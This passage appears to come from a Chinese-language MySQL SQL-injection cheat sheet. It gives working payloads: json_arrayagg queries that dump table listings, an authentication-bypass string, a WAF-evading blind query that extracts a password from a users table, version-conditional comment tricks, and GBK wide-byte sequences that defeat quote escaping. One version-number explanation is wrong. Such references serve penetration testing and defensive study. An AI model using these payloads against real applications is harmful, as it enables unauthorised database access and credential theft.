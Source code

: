
### GROUP_CONCAT的替代品

要求：`MySQL >= 5.7.22`

使用`json_arrayagg()`代替`group_concat()`，允许显示更少的符号
* `group_concat()` = 1024个符号
* `json_arrayagg()` > 16,000,000个符号

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```


### 科学计数法

在MySQL中，e表示法用于表示科学计数法中的数字。这是一种以简洁格式表示非常大或非常小数字的方法。e表示法由一个数字后跟字母e和一个指数组成。
格式为：`base 'e' exponent`。

例如：

* `1e3` 表示 `1 x 10^3`，即 `1000`。 
* `1.5e3` 表示 `1.5 x 10^3`，即 `1500`。 
* `2e-3` 表示 `2 x 10^-3`，即 `0.002`。 

以下查询是等效的：

* `SELECT table_name FROM information_schema 1.e.tables` 
* `SELECT table_name FROM information_schema .tables` 

同样地，常见的绕过认证负载 `' or ''='` 等效于 `' or 1.e('')='` 和 `1' or 1.e(1) or '1'='1`。 
这种技术可以用来混淆查询以绕过WAF，例如：`1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2`


### 条件注释

MySQL条件注释包含在 `/*! ... */` 中，可以包含一个版本号，以指定应执行包含代码的MySQL的最低版本。
如果MySQL版本高于或等于 `/*!` 后面立即跟随的数字，则将执行此注释内的代码。如果MySQL版本低于指定数字，则将忽略注释内的代码。 

* `/*!12345UNION*/`：这意味着如果MySQL版本为12.345或更高，则将执行SQL语句中的UNION关键字。
* `/*!31337SELECT*/`：同样地，如果MySQL版本为31.337或更高，则将执行SELECT关键字。

**示例**：`/*!12345UNION*/`, `/*!31337SELECT*/`


### 宽字节注入（GBK）

宽字节注入是一种特定类型的SQL注入攻击，针对使用多字节字符集的应用程序，如GBK或SJIS。术语“宽字节”指的是字符编码，其中一个字符可以用多个字节表示。当应用程序和数据库对多字节序列的解释不同时，这种注入特别相关。

可以利用 `SET NAMES gbk` 查询进行基于字符集的SQL注入攻击。当字符集设置为GBK时，某些多字节字符可以用来绕过转义机制并注入恶意SQL代码。

可以使用几个字符来触发注入。

* `%bf%27`：这是字节序列 `0xbf27` 的URL编码表示。在GBK字符集中，`0xbf27` 解码为一个有效的多字节字符，后面跟着一个单引号（'）。当MySQL遇到此序列时，它将其解释为一个有效的GBK字符，后面跟着一个单引号，有效地结束了字符串。
* `%bf%5c`：表示字节序列 `0xbf5c`。在GBK中，这解码为一个有效的多字节字符，后面跟着一个反斜杠（`\`）。这可以用来转义序列中的下一个字符。
* `%a1%27`：表示字节序列 `0xa127`。在GBK中，这解码为一个有效的多字节字符，后面跟着一个单引号（'）。
